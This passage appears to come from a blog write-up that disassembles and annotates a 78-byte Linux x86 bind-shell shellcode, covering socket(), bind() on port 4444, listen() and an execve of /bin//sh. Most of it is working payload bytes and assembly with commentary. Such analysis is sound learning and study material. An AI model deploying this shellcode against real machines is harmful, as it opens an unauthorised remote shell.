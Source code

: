 ```
0000003A  682F2F7368        push dword 0x68732f2f
0000003F  682F62696E        push dword 0x6e69622f
00000044  89E3              mov ebx,esp
00000046  50                push eax
00000047  53                push ebx
00000048  89E1              mov ecx,esp
0000004A  B00B              mov al,0xb
0000004C  CD80              int 0x80
```
Coming in at 78 bytes, this one has mine beat by.. oh, 30 bytes or so? RIP me.

Starting from the top, we find that the initial call for `socketcall()`, calling `socket()`, is identical to the reverse shell we just looked at.

```
00000000  31DB              xor ebx,ebx 		
00000002  F7E3              mul ebx 			
00000004  53                push ebx 			
00000005  43                inc ebx 			
00000006  53                push ebx 			
00000007  6A02              push byte +0x2  	
00000009  89E1              mov ecx,esp
0000000B  B066              mov al,0x66
0000000D  CD80              int 0x80
```
Moving on, we see our `bind()` code:
```
0000000F  5B                pop ebx 				; pop 0x02 into ebx for bind()
00000010  5E                pop esi 				; pop 0x01 into esi for later
00000011  52                push edx 				; start our sockaddr struct by pushing NULL onto the stack 
00000012  680200115C        push dword 0x5c110002 	; push our port (5c11 = 4444) and AF_INET (0x02) onto the stack
00000017  6A10              push byte +0x10 		; push the size of the sockaddr struct
00000019  51                push ecx 				; push the sockaddr struct address (clever stack manipulations, initially set in connect!)
0000001A  50                push eax 				; push the socket file descriptor returned from socket()
0000001B  89E1              mov ecx,esp 			; move the address of arguments into ecx
0000001D  6A66              push byte +0x66 		; 
0000001F  58                pop eax 				; push / pop is less bytes than mov
00000020  CD80              int 0x80 				; call bind()
```

This one struck me, the instructions at 0x00000019 blew my mind at first, but after stepping through it made total sense. This instruction is intended to put the pointer of the address of sockaddr onto the stack-- now looking at it, it's just pushing ecx on... Well as it turns out, ecx actuall still points to the correct address from when it was set in `socket()` initially! Some clever stack play lets us simply reuse the register without modification. That's pretty slick!

Next, we go to `listen()`, 0x04:
```
00000022  894104            mov [ecx+0x4],eax 	; ecx is esp, add a null to esp + 4
00000025  B304              mov bl,0x4 			; move 0x4 (listen) into bl
00000027  B066              mov al,0x66 		; move socketcall into eax
00000029  CD80              int 0x80 			; call socketcall()
```

